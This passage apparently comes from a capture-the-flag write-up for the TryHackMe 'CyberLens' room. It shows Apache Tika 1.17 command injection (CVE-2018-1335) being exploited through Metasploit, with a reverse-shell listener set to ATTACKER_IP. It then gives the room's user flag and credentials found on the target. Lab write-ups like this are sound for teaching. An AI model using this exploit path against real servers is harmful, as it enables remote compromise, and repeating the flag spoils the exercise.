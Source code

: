 <img width="1858" height="972" alt="Screenshot From 2025-05-19 17-30-34" src="https://github.com/user-attachments/assets/a800707b-4158-4961-b912-6c0b33fb7fe4" />

<img width="1858" height="972" alt="Screenshot From 2025-05-19 17-32-27" src="https://github.com/user-attachments/assets/4fa61ecd-882a-42ba-9ec2-43f24c1c606d" />


---

## Exploitation – Apache Tika

Apache Tika 1.17 is vulnerable to **command injection** (Exploit-DB 47208).  
Vulnerability: Improper handling of the `X-Parsed-By` header with `Content-Type: image/jp2`.

Mitigation (from vendor): Upgrade to patched version, validate headers.

**Metasploit setup:**
```
set LHOST ATTACKER_IP
set RPORT 61777
set RHOSTS cyberlens.thm
```
Exploit reference: [https://www.exploit-db.com/exploits/47208](https://www.exploit-db.com/exploits/47208)

<img width="1860" height="502" alt="Screenshot From 2025-05-19 17-37-49" src="https://github.com/user-attachments/assets/35648596-0813-43fd-9383-0ac15a090ea4" />

<img width="1857" height="967" alt="Screenshot From 2025-05-19 17-41-05" src="https://github.com/user-attachments/assets/583f2c42-16cd-43ac-bcfb-41a2b43dee56" />


---

## User Flag

Once inside, navigated to the **Cyberlens** user desktop:

**Flag:**
```
THM{T1k4-CV3-f0r-7h3-w1n}
```

<img width="1857" height="967" alt="Screenshot From 2025-05-19 17-42-57" src="https://github.com/user-attachments/assets/0b97d366-3a0f-4fe6-9f73-f79f4629c763" />

---

## Additional Exploitation Path

Found credentials in `Documents/CyberLens-Management.txt`:
```
Username: CyberLens
Password: HackSmarter123
```
Can be used for RDP access.

Related CVE: [CVE-2018-1335](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/) — Command injection via `X-Tika-OCRTesseractPath` header.

